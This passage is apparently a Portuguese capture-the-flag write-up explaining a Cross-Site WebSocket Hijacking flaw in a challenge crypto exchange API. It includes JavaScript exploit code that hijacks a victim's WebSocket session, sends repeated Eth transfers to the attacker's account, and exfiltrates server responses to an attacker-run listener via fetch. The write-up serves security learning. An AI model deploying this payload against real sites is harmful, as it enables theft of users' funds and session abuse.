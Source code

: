 Essa conexão WebSocket está suscetível a um ataque: se o handshake não usa qualquer tipo de token de sessão como um CSRF token, então qualquer site malicioso que for aberto por uma vítima pode fingir ser a vítima abrindo essa conexão. Esse é o Cross Site WebSocket Hijacking, ou CSWBH, e essa é a vulnerabilidade desse desafio.

O código revela que existem cinco operações que podem ser feitas pela api da exchange: ping, que pega informações básicas do site para mostrar, init, que faz o login ou cadastro; buy, que compra Eth; sell, que vende Eth, e por fim transfer, que transfere Eth de um usuário para o outro. Tendo isso em mãos, basta montar um pequeno webserver em Python com o site malicioso que criará a conexão e fará as transferências para nossa conta! Sendo isso, fiz um site simples com uma tag script com o código abaixo.

```js
const socket = new WebSocket("ws://localhost:4001","ethexchange-api");

var transfer = JSON.stringify({
	"type":"transfer",
	"content": {
		"amount": 3, // quantidade humilde para teste
		"to_token":"meu_token" // aqui entraria o token do meu user
	}
});

socket.onopen = function (event) {
	// Vários para garantir
	socket.send(transfer);
	socket.send(transfer);
	socket.send(transfer);
}

socket.onmessage = function (event) {
	fetch("http://localhost:8000/?response=" + event.data);
}
```

O código fará várias tentativas de transfer de Eth para a minha conta e para cada resposta do servidor, enviará a mensagem para o localhost porta 8000 em forma de parâmetro de requisição e ela poderá ser vista na lista de requests do servidor Python aberto com `python -m http.server`. Com isso, conseguimos a resposta abaixo:

![Primeira tentativa de exploit](/assets/exploit-parte-1.png)
